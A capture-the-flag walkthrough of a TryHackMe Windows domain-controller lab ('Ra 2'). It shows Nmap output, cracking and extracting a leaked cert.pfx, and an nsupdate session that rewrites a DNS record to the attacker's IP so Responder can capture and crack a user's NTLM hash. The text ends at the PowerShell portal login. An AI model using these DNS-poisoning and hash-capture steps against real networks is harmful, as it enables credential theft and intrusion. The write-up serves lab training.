This box is rated hard difficulty on THM and is the second installation of the Windcorp series. It involves us enumerating a backup folder which holds a cert.pfx file, leading to us poisoning the DNS server to capture a low level user's NTLM hash, and abusing a known Windows privilege to get Administrator rights over the box.

_Just when they thought their hashes were safe… Ra 2 - The sequel!_

## Scanning & Enumeration
As always I start off with an Nmap scan on the given IP to find all running services, including UDP which is looked over quite often. The address we are given is already on their internal network so it's just a matter of owning the DC at this point.

On systems like this with a massive attack surface, enumeration is key. Doing a deep dive on every domain/endpoint will prove useful as the developers claim to have fully secured it this time around.

TCP Scan:
```
$ sudo nmap -p- -sCV 10.64.171.231 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-20 01:15 CST
Nmap scan report for 10.64.171.231
Host is up (0.042s latency).
Not shown: 65498 filtered tcp ports (no-response)
PORT      STATE SERVICE             VERSION
53/tcp    open  domain              Simple DNS Plus
80/tcp    open  http                Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to https://fire.windcorp.thm/
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2026-01-20 07:17:30Z)
135/tcp   open  msrpc               Microsoft Windows RPC
139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn
389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:selfservice.windcorp.thm, DNS:selfservice.dev.windcorp.thm
| Not valid before: 2020-05-29T03:31:08
|_Not valid after:  2028-05-29T03:41:03
|_ssl-date: 2026-01-20T07:19:21+00:00; -1s from scanner time.
443/tcp   open  ssl/http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:selfservice.windcorp.thm, DNS:selfservice.dev.windcorp.thm
| Not valid before: 2020-05-29T03:31:08
|_Not valid after:  2028-05-29T03:41:03
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2026-01-20T07:19:21+00:00; 0s from scanner time.
|_http-title: Not Found
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
|_ssl-date: 2026-01-20T07:19:21+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:selfservice.windcorp.thm, DNS:selfservice.dev.windcorp.thm
| Not valid before: 2020-05-29T03:31:08
|_Not valid after:  2028-05-29T03:41:03
2179/tcp  open  vmrdp?
3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-20T07:19:21+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:selfservice.windcorp.thm, DNS:selfservice.dev.windcorp.thm
| Not valid before: 2020-05-29T03:31:08
|_Not valid after:  2028-05-29T03:41:03
3269/tcp  open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-20T07:19:20+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:selfservice.windcorp.thm, DNS:selfservice.dev.windcorp.thm
| Not valid before: 2020-05-29T03:31:08
|_Not valid after:  2028-05-29T03:41:03
3389/tcp  open  ms-wbt-server       Microsoft Terminal Services
| ssl-cert: Subject: commonName=Fire.windcorp.thm
| Not valid before: 2026-01-19T07:08:36
|_Not valid after:  2026-07-21T07:08:36
|_ssl-date: 2026-01-20T07:19:21+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WINDCORP
|   NetBIOS_Domain_Name: WINDCORP
|   NetBIOS_Computer_Name: FIRE
|   DNS_Domain_Name: windcorp.thm
|   DNS_Computer_Name: Fire.windcorp.thm
|   DNS_Tree_Name: windcorp.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2026-01-20T07:18:44+00:00
5222/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
|_ssl-date: 2026-01-20T07:19:21+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     compression_methods: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 8j24ew2a3l
|     xmpp: 
|       version: 1.0
|     features: 
|_    auth_mechanisms: 
5223/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
|_ssl-date: 2026-01-20T07:19:21+00:00; 0s from scanner time.
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     errors: 
|       (timeout)
|     compression_methods: 
|     xmpp: 
|     features: 
|_    auth_mechanisms: 
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
5229/tcp  open  jaxflow?
5262/tcp  open  jabber
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     compression_methods: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 46i4ermbeq
|     xmpp: 
|       version: 1.0
|     features: 
|_    auth_mechanisms: 
5263/tcp  open  ssl/jabber
|_ssl-date: 2026-01-20T07:19:21+00:00; -1s from scanner time.
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     errors: 
|       (timeout)
|     compression_methods: 
|     xmpp: 
|     features: 
|_    auth_mechanisms: 
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
5269/tcp  open  xmpp                Wildfire XMPP Client
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     errors: 
|       (timeout)
|     compression_methods: 
|     xmpp: 
|     features: 
|_    auth_mechanisms: 
5270/tcp  open  ssl/xmpp            Wildfire XMPP Client
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
|_ssl-date: 2026-01-20T07:19:21+00:00; -1s from scanner time.
5275/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     compression_methods: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 7f646y25lk
|     xmpp: 
|       version: 1.0
|     features: 
|_    auth_mechanisms: 
5276/tcp  open  ssl/jabber
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     errors: 
|       (timeout)
|     compression_methods: 
|     xmpp: 
|     features: 
|_    auth_mechanisms: 
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
|_ssl-date: 2026-01-20T07:19:21+00:00; -1s from scanner time.
7070/tcp  open  http                Jetty 9.4.18.v20190429
|_http-title: Openfire HTTP Binding Service
|_http-server-header: Jetty(9.4.18.v20190429)
7443/tcp  open  ssl/http            Jetty 9.4.18.v20190429
|_http-title: Openfire HTTP Binding Service
|_http-server-header: Jetty(9.4.18.v20190429)
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
7777/tcp  open  socks5              (No authentication; connection not allowed by ruleset)
| socks-auth-info: 
|_  No authentication
9090/tcp  open  hadoop-datanode     Apache Hadoop
|_http-title: Site doesn't have a title (text/html).
| hadoop-tasktracker-info: 
|_  Logs: jive-ibtn jive-btn-gradient
| hadoop-datanode-info: 
|_  Logs: jive-ibtn jive-btn-gradient
9091/tcp  open  ssl/hadoop-datanode Apache Hadoop
|_http-title: Site doesn't have a title (text/html).
| hadoop-tasktracker-info: 
|_  Logs: jive-ibtn jive-btn-gradient
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
| hadoop-datanode-info: 
|_  Logs: jive-ibtn jive-btn-gradient
9389/tcp  open  mc-nmf              .NET Message Framing
49667/tcp open  msrpc               Microsoft Windows RPC
49668/tcp open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
49669/tcp open  msrpc               Microsoft Windows RPC
49670/tcp open  msrpc               Microsoft Windows RPC
49672/tcp open  msrpc               Microsoft Windows RPC
49686/tcp open  msrpc               Microsoft Windows RPC
49699/tcp open  msrpc               Microsoft Windows RPC
Service Info: Host: FIRE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-20T07:18:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 225.64 seconds
```

UDP Scan:
```
$ sudo nmap -sU 10.64.171.231 -oN fullscan-udp 

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-20 01:22 CST
Nmap scan report for 10.64.171.231
Host is up (0.043s latency).
Not shown: 996 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
389/udp open  ldap

Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```

There is a ton of info to go off of here and most notably, this is almost the exact same setup as the previous box (Ra 1) which does make sense. I add fire.windcorp.thm to my /etc/hosts file and fire up directory/subdomain searches to sit in the background.

I will be focusing on:
- The web servers on ports 80 and 9090
- SMB on ports 139/445
- RDP on port 3389
- Kerberos on port 88
- DNS on port 53

Heading to the webpage on port 80 redirects us to `https://fire.windcorp.thm`. Checking the certificate leaks two more subdomains of selfservice.windcorp.thm and selfservice.dev.windcorp.thm .



Once again I rip the emails/usernames from the list of people on the webpage and have a look around. Instead of the reset password button, there's a selfservice one which prompts us to sign in.



There's a message left by the devs on the main site that may be hinting at a new attack method involving certificates of some kind.



I'm guessing the selfservice.windcorp.thm site is for normal signons and the dev version is for devs/admins, however we don't have creds yet. Ports 9090 (HTTP) & 9091 (HTTPS) show an admin login panel for openfire, which looks to be an instant messaging server.



We can't do too much without authentication so I start enumerating SMB shares and run a dig on the DNS server to grab more info. 



Displaying the DNS server's TXT records grants us the first of three flags. Reading the flag also strongly suggests our main route for exploitation involves DNS poisoning or updating records in some way.



Guest authentication is now disabled for SMB, but this confirms the machine is using Microsoft Windows Server 2019. Looking through the subdirectory search results shows an interesting one on the main site.



This is a web access portal to run Powershell commands. It would be pretty darn nice to get access to that.



Another interesting folder pops up, this time on selfservice.dev.windcorp.thm. The SSL version of that domain is under construction which hints that it may not be properly hardened yet. Inside /backup is a cert.pfx file and a web.config that must've been moved/deleted as we get a 404 from it.

A .pfx file is an encrypted, password protected file containing cryptographic secrets used by a site or service to be able to prove its identity. We can convert cert.pfx to a crackable hash with pfx2john and try to grab the password.



Opening it grants us the public cert and private key for fire.windcorp.thm.



So from what we've gathered so far all pertaining to SSL certificates, different subdomains, etc. I'm thinking we'll have to perform some sort of DNS poisoning attack in order to capture credentials or maybe enumerate some other things that way.

Problem is, I still don't know what to look for or how to set that up.

I start testing logins at each site, capturing the requests in Burp Suite and find that the selfservice.dev domain sends an Authorization header that contains the users NTLM hash.



Maybe we can setup a listener on this port and intercept a hash to get a successful login. 

You can copy/paste the cert and key from the .pfx file or use these commands to extract them:

```
openssl pkcs12 -in cert.pfx -out selfservice_windcorp_cert.pem -clcerts -nokeys

openssl pkcs12 -in cert.pfx -out selfservice_windcorp_key.pem -nocerts -nodes
```


Next up, I tested if the server allowed for insecure updates because if not this would all be for nothing.



Looks like it does indeed. Now comes the tricky part; I have no real experience with DNS poisoning, however it's actually pretty straight forward considering all the things we've gathered up to this point.

Here are some links to great articles explaining exactly what is happening. 

[What is DNS poisoning?](https://www.cloudflare.com/learning/dns/dns-cache-poisoning/)

[Hacktricks](https://github.com/b4rdia/HackTricks/blob/master/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)

I'll give a low level explanation and walkthrough how to setup responder in order to properly configure our listener to catch the hash.

First, move the extracted cert and key from earlier into the `/usr/share/responder/certs/` dir.

```
sudo mv selfservice_windcorp_cert.pem /usr/share/responder/certs && sudo mv selfservice_windcorp_key.pem /usr/share/responder/certs
```

Next, update the bottom lines of your Responder.conf file (default on Kali is `/etc/responder/Responder.conf` ) to point towards the extracted key and cert.



Since that's configured correctly, we need to update the DNS records on the machine to point towards our attacking machine and remove the old type A record for selfservice.windcorp.thm.

```
$ nsupdate 
>     
> server 10.64.171.231
> update delete selfservice.windcorp.thm
> send
> 
> update add selfservice.windcorp.thm 86400 A 192.168.144.73
> send
```

_Note: I did this for both the normal selfservice and the dev domain but only got a hit back for the normal one._

Now fire up responder and wait for authentication.



We finally grab an NTLM hash for the user ewardle. I send it over to JohnTheRipper and extract his password to sign onto the site.



Before attempting these creds on the site or other applications, I try to authenticate to SMB which gives us a list of users on the box as well as an another share which is empty.





Heading over to the Powershell web portal, we can login with ed's creds and by specifying the computer name of fire.windcorp.thm.

